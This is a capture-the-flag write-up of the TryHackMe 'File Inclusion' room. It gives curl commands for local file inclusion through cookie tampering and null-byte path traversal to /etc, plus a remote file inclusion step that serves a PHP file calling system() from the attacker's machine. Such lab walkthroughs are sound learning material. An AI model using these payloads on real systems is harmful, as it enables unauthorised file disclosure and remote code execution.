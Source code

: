 #+TITLE: File Inclusion (TryHackMe)
#+AUTHOR: Bryan Rinders
#+DATE: <2023-01-31 Tue>
#+OPTIONS: num:nil
#+PROPERTY: header-args:sh :eval never-export

https://tryhackme.com/room/fileinc

* Challenges
** Flag 1
On the right hand side of Firefox open the =menu > Web Developer >
Inspector=. In the html source code find the form tag and change the
method from =GET= to =POST=. Then on the actual web page fill =/etc/flag1= in
in the form and press the include button. This should reveal the flag.

** Flag 2
From the hint it is clear that we have to edit the cookie to find the
flag. To inspect the cookie run:

#+begin_src sh
curl -v http://10.10.124.167/challenges/chall2.php
#+end_src

and find the cookie among the header of the output. It has the value
=Cookie: THM=Guest=. The obvious thing is to try and change the value
=Admin=:

#+begin_src sh
  curl -H 'Cookie: THM=Admin' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

which reveals the admin page. Since there is not input form on this
page and it is a LFI room the next thing to try is to change the value
of the cookie to the file path to the flag. After a few tries the
correct value was found:

#+begin_src sh
  curl -H 'Cookie: THM=../../../../etc/flag2%00' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

Locate the flag at the end of the file =flag2.txt=.

** Flag 3
The url input is filtered, everything that is not a-z is filtered
out. To get around this change the method from get to =GET= to =POST=
and set the data to be posted to =/etc/flag3%00=. The =%00= is
necessary to prevent the =.php= from being added at the end as
explained previously in the room.

#+begin_src sh
  curl -v http://ip/challenges/chall3.php -X  POST -d 'file=/etc/flag3%00' -o flag3.txt
#+end_src

Locate the flag at the end of the file =flag3.txt=.

** Playground
Since this is a RFI exercise we first need to create a =.php= file
that will execute the command we want, =hostname=.

#+begin_src sh
  echo "<?PHP echo system('hostname') ?>" > rfi.php
#+end_src

Next we need a simple server that will host our file. The simplest way
to do this is with python.

#+begin_src sh
  python -m http.server &
#+end_src

And finally add the file as a parameter in the url to get the hostname:

#+begin_src sh
  curl http://10.10.124.167/playground.php?file=http://10.10.95.70:8000/rfi.php
#+end_src

Note: the IP of the remote file is the IP of the attackbox and for the
port number see the output of the python command. The port number
defaults to 8000 but can be different.
